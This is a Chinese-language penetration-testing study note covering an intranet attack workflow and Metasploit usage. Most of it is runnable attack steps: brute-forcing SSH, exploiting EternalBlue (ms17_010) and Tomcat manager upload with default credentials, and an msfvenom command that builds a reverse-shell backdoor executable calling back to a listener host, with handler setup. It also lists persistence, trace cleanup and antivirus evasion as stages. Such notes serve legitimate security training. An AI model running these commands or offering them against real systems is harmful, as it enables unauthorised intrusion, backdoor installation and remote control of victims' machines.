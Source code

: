 ## 0x01 内网渗透流程

- 一般都是针对Windows系统进行内网渗透

1. 外部打点（外部攻击，如网站渗透getshell）
2. 内网信息收集（系统信息，网络信息，密码，防火墙信息等）
3. 提权
4. 横向渗透（同网段渗透）
5. 纵向渗透（跨网段渗透，如同一主机同时有两个网络环境的ip）
6. 权限维持
7. 痕迹清理

- 免杀

- 域渗透

  

## 0x02 外部打点

### 一、漏洞挖掘

1. 历史漏洞（RCE）
2. 0day
3. 手动挖掘owasp top 10

### 二、漏洞利用

1. 上传webshell

2. 反弹shell

3. 渗透测试框架 远控后门（Metasploit、CobaltStrike）

   

### 三、Metasploit

#### 1. Metasploit概述

- metasploit是一个集成的渗透测试框架

- 官网：https://metasploit.com

- github项目地址：https://github.com/rapid7/metasploit-framework

- 官方文档：https://docs.rapid7.com/metasploit/

- 官方视频：https://www.youtube.com/c/MetasploitR7

- 安装：

  wget https://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run
  chmod +x metasploit-latest-linux-x64-installer.run
  ./metasploit-latest-linux-x64-installer.run

#### 2. 基础构成

- modules
  - auxiliary:辅助模块,辅助渗透（端口扫描、登录密码爆破、漏洞验证等)
  - exploits:漏洞利用模块，包含主流的漏洞利用脚本，通常是对某些可能存在漏洞的目标进行漏洞利用。命名规则:操作系统/各种应用协议分类
  - payloads:攻击载荷，主要是攻击成功后在目标机器执行的代码，比如反弹shell的代码
  - post:后渗透阶段模块，漏洞利用成功获得meterpreter之后，向目标发送的一些功能性指令，如:提权等
  - encoders:编码器模块，主要包含各种编码工具，对payload进行编码加密，以便绕过入侵检测和过滤系统
  - evasion:躲避模块,用来生成免杀payload
  - nops:由于IDS/IPs会检查数据包中不规则的数据，在某些情况下，比如针对溢出攻击，某些特殊滑行字符串(NOPS x90x90...)则会因为被拦截而导致攻击失效。

- db

#### 3. 基础使用

1. msfdb init（初始化数据库，开启5432端口）
2. msfconsole（进入msf命令行接口）

### 4. 使用流程

1. 使用模块

   - 可以使用search查找相关模块

   - use 模块序号/模块全称
    ![image-20220704111546717](../img/内网渗透-基础/image-20220704111546717.png)

2. 配置模块

   - show options或options查看配置

   - required是yes代表是必填项，若为空则需要手动配置

   - 选择相应配置项set配置参数
     ![image-20220704112314465](../img/内网渗透-基础/image-20220704112314465.png)

3. 运行模块
   - run或exploit

### 5. 使用示例

- 爆破ssh服务

  1. search ssh scanner查找相关模块

     ![image-20220704115740588](../img/内网渗透-基础/image-20220704115740588.png)

  2. use使用模块

     use auxiliary/scanner/ssh/ssh_login

  3. option查看配置选项

     ![image-20220704115817591](../img/内网渗透-基础/image-20220704115817591.png)

  4. set配置参数

  5. run运行模块

- 爆破ftp
  1. search ftp auxilary scanner

- 永恒之蓝

  smb服务445端口，ms17_010

  1）使用模块

  - search ms_17_010
  - use 0

  2）配置模块

  - module options：
    - rhost 目标地址
  - payload options：
    - meterpreter  msf后渗透模块
    - windows/x64/meterpreter/reverse_tcp 系统版本/架构/协作的操作/操作方法
    - lhost 监听机地址
    - lport 监听端口
  - exploit target ：自动

  3）使用模块

  - run/exploit

- tomcat后台部署漏洞

  - search tomcat
  - use exploit/multi/http/tomcat_mgr_upload
  - show options
  - set rhost
  - set rport
  - set httpusername tomcat
  - set httppassword tomcat
  - set lhost
  - set lport
  - run


### 6. msfconsole 和 meterpreter相关命令

   - exit
   - background 当前会话放到后台
   - sessions 列出后台会话
   - sessions [ID] 进入会话
   - \>meterpreter shell 获取目标命令行
   - \>meterpreter getuid 获取当前用户信息
   - \>cmd chcp 65001 修改编码为utf-8
   - \>msf6 jobs 列出所有job
   - \>msf6 job -K 关闭所有
   - \>msf6 job -k  ID 关闭指定job

### 7. msfvenom 生成远控木马

1. 生成后门

​	msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.136 lport=12345 -f exe -o 123.exe

2. 攻击机开启监听

​	正常开启：

1. msfconsole
2. use exploit/multi/handler
3. set payload windows/x64/meterpreter/reverse_tcp
4. set lhost xxx.xxx.xxx.xxx
5. set lport xxxx
6. run

​	快捷开启：hander -p windows/x64/meterpreter/reverse_tcp -H 192.168.10.77 -P 12345

3. 靶机运行后门，上线meterpreter



